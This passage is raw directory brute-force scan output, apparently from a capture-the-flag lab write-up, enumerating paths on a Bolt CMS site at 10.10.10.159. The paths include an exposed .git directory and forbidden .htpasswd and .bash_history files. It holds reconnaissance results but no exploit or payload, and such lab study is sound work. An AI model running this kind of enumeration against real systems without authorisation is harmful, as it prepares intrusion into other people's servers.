301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/cc => http://10.10.10.159/bolt/app/cache/profiler/cc/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/cd => http://10.10.10.159/bolt/app/cache/profiler/cd/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/cf => http://10.10.10.159/bolt/app/cache/profiler/cf/
200      GET       21l      168w     1070c http://10.10.10.159/bolt/vendor/composer/LICENSE
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git/logs/refs => http://10.10.10.159/bolt/.git/logs/refs/
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/logs/refs/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/logs/refs/.htaccess
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/embed => http://10.10.10.159/bolt/vendor/embed/
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git/objects/pack => http://10.10.10.159/bolt/.git/objects/pack/
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/objects/pack/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/objects/pack/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/vendor/embed/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/vendor/embed/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/d1 => http://10.10.10.159/bolt/app/cache/profiler/d1/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/d2 => http://10.10.10.159/bolt/app/cache/profiler/d2/
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/facebook => http://10.10.10.159/bolt/vendor/facebook/
403      GET        7l       11w      178c http://10.10.10.159/bolt/vendor/facebook/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/vendor/facebook/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/de => http://10.10.10.159/bolt/app/cache/profiler/de/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/df => http://10.10.10.159/bolt/app/cache/profiler/df/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/view/css => http://10.10.10.159/bolt/app/view/css/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/view/css/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/view/css/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/e2 => http://10.10.10.159/bolt/app/cache/profiler/e2/
200      GET       62l      177w     1757c http://10.10.10.159/bolt/vendor/bin/composer
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/fd => http://10.10.10.159/bolt/app/cache/profiler/fd/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/ff => http://10.10.10.159/bolt/app/cache/profiler/ff/
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/imagine => http://10.10.10.159/bolt/vendor/imagine/
403      GET        7l       11w      178c http://10.10.10.159/bolt/vendor/imagine/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/bolt/vendor/imagine/.htaccess
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/composer/composer => http://10.10.10.159/bolt/vendor/composer/composer/
403      GET        7l       11w      178c http://10.10.10.159/bolt/vendor/composer/composer/.htaccess
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/view/fonts => http://10.10.10.159/bolt/app/view/fonts/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/view/fonts/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/view/fonts/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/src/js => http://10.10.10.159/bolt/app/src/js/
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/src/js/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/app/src/js/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/league => http://10.10.10.159/bolt/vendor/league/
301      GET        7l       13w      194c http://10.10.10.159/bolt/.git/refs/remotes => http://10.10.10.159/bolt/.git/refs/remotes/
200      GET       19l      168w     1068c http://10.10.10.159/bolt/vendor/composer/composer/LICENSE
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/refs/remotes/.htaccess
403      GET        7l       11w      178c http://10.10.10.159/bolt/.git/refs/remotes/.htpasswd
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/src/lib => http://10.10.10.159/bolt/app/src/lib/
```
```
301      GET        7l       13w      194c http://10.10.10.159/bolt/files => http://10.10.10.159/bolt/files/
301      GET        7l       13w      194c http://10.10.10.159/bolt/tests => http://10.10.10.159/bolt/tests/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src => http://10.10.10.159/bolt/src/
301      GET        7l       13w      194c http://10.10.10.159/bolt/tests/scripts => http://10.10.10.159/bolt/tests/scripts/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app => http://10.10.10.159/bolt/app/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/resources => http://10.10.10.159/bolt/app/resources/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/view => http://10.10.10.159/bolt/app/view/
301      GET        7l       13w      194c http://10.10.10.159/bolt/theme => http://10.10.10.159/bolt/theme/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/view/img => http://10.10.10.159/bolt/app/view/img/
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor => http://10.10.10.159/bolt/vendor/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Security => http://10.10.10.159/bolt/src/Security/
301      GET        7l       13w      194c http://10.10.10.159/bolt/extensions => http://10.10.10.159/bolt/extensions/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/src => http://10.10.10.159/bolt/app/src/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/view/css => http://10.10.10.159/bolt/app/view/css/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/database => http://10.10.10.159/bolt/app/database/
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/bin => http://10.10.10.159/bolt/vendor/bin/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/view/toolbar => http://10.10.10.159/bolt/app/view/toolbar/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Events => http://10.10.10.159/bolt/src/Events/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/view/img/lib => http://10.10.10.159/bolt/app/view/img/lib/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache => http://10.10.10.159/bolt/app/cache/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/view/js => http://10.10.10.159/bolt/app/view/js/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/config => http://10.10.10.159/bolt/app/config/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/src/lib => http://10.10.10.159/bolt/app/src/lib/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/trans => http://10.10.10.159/bolt/app/cache/trans/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/src/js => http://10.10.10.159/bolt/app/src/js/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/development => http://10.10.10.159/bolt/app/cache/development/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/src/js/modules => http://10.10.10.159/bolt/app/src/js/modules/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/development/data => http://10.10.10.159/bolt/app/cache/development/data/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/view/fonts => http://10.10.10.159/bolt/app/view/fonts/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/config/extensions => http://10.10.10.159/bolt/app/config/extensions/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Storage => http://10.10.10.159/bolt/src/Storage/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/src/js/widgets => http://10.10.10.159/bolt/app/src/js/widgets/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Form => http://10.10.10.159/bolt/src/Form/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/view/js/locale => http://10.10.10.159/bolt/app/view/js/locale/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Security/Random => http://10.10.10.159/bolt/src/Security/Random/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Storage/Database => http://10.10.10.159/bolt/src/Storage/Database/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Translation => http://10.10.10.159/bolt/src/Translation/
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/league => http://10.10.10.159/bolt/vendor/league/
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/facebook => http://10.10.10.159/bolt/vendor/facebook/
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/composer => http://10.10.10.159/bolt/vendor/composer/
200      GET       62l      177w     1757c http://10.10.10.159/bolt/vendor/bin/composer
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/embed => http://10.10.10.159/bolt/vendor/embed/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Controller => http://10.10.10.159/bolt/src/Controller/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Storage/Repository => http://10.10.10.159/bolt/src/Storage/Repository/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler => http://10.10.10.159/bolt/app/cache/profiler/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/12 => http://10.10.10.159/bolt/app/cache/profiler/12/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/11 => http://10.10.10.159/bolt/app/cache/profiler/11/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/15 => http://10.10.10.159/bolt/app/cache/profiler/15/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/22 => http://10.10.10.159/bolt/app/cache/profiler/22/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/01 => http://10.10.10.159/bolt/app/cache/profiler/01/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/08 => http://10.10.10.159/bolt/app/cache/profiler/08/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/de => http://10.10.10.159/bolt/app/cache/profiler/de/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/39 => http://10.10.10.159/bolt/app/cache/profiler/39/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/45 => http://10.10.10.159/bolt/app/cache/profiler/45/
301      GET        7l       13w      194c http://10.10.10.159/bolt/vendor/imagine => http://10.10.10.159/bolt/vendor/imagine/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/52 => http://10.10.10.159/bolt/app/cache/profiler/52/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/66 => http://10.10.10.159/bolt/app/cache/profiler/66/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/65 => http://10.10.10.159/bolt/app/cache/profiler/65/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/89 => http://10.10.10.159/bolt/app/cache/profiler/89/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/67 => http://10.10.10.159/bolt/app/cache/profiler/67/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/87 => http://10.10.10.159/bolt/app/cache/profiler/87/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/77 => http://10.10.10.159/bolt/app/cache/profiler/77/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/91 => http://10.10.10.159/bolt/app/cache/profiler/91/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/90 => http://10.10.10.159/bolt/app/cache/profiler/90/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/75 => http://10.10.10.159/bolt/app/cache/profiler/75/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/79 => http://10.10.10.159/bolt/app/cache/profiler/79/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/86 => http://10.10.10.159/bolt/app/cache/profiler/86/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/ca => http://10.10.10.159/bolt/app/cache/profiler/ca/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/82 => http://10.10.10.159/bolt/app/cache/profiler/82/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/98 => http://10.10.10.159/bolt/app/cache/profiler/98/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/74 => http://10.10.10.159/bolt/app/cache/profiler/74/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/95 => http://10.10.10.159/bolt/app/cache/profiler/95/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/cc => http://10.10.10.159/bolt/app/cache/profiler/cc/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Menu => http://10.10.10.159/bolt/src/Menu/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/cd => http://10.10.10.159/bolt/app/cache/profiler/cd/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/bc => http://10.10.10.159/bolt/app/cache/profiler/bc/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/c2 => http://10.10.10.159/bolt/app/cache/profiler/c2/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Request => http://10.10.10.159/bolt/src/Request/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/cf => http://10.10.10.159/bolt/app/cache/profiler/cf/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/c3 => http://10.10.10.159/bolt/app/cache/profiler/c3/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/b7 => http://10.10.10.159/bolt/app/cache/profiler/b7/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/d4 => http://10.10.10.159/bolt/app/cache/profiler/d4/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/f5 => http://10.10.10.159/bolt/app/cache/profiler/f5/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/2c => http://10.10.10.159/bolt/app/cache/profiler/2c/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Storage/Mapping => http://10.10.10.159/bolt/src/Storage/Mapping/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Logger => http://10.10.10.159/bolt/src/Logger/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/7d => http://10.10.10.159/bolt/app/cache/profiler/7d/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/9a => http://10.10.10.159/bolt/app/cache/profiler/9a/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/1f => http://10.10.10.159/bolt/app/cache/profiler/1f/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/4d => http://10.10.10.159/bolt/app/cache/profiler/4d/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/6d => http://10.10.10.159/bolt/app/cache/profiler/6d/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Response => http://10.10.10.159/bolt/src/Response/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Legacy => http://10.10.10.159/bolt/src/Legacy/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Storage/Field => http://10.10.10.159/bolt/src/Storage/Field/
301      GET        7l       13w      194c http://10.10.10.159/bolt/app/cache/profiler/7e => http://10.10.10.159/bolt/app/cache/profiler/7e/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Extension => http://10.10.10.159/bolt/src/Extension/
301      GET        7l       13w      194c http://10.10.10.159/bolt/src/Storage/Field/Collection => http://10.10.10.159/bolt/src/Storage/Field/Collection/

```

* The root  
```
403      GET        7l       11w      178c http://10.10.10.159/.bash_history
403      GET        7l       11w      178c http://10.10.10.159/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/.htaccess
301      GET        7l       13w      194c http://10.10.10.159/install => http://10.10.10.159/install/
403      GET        7l       11w      178c http://10.10.10.159/install/.htpasswd
403      GET        7l       11w      178c http://10.10.10.159/install/.htaccess
```

<!-- @nested-tags:EXAMPLE/OF/NESTED/TAGS-->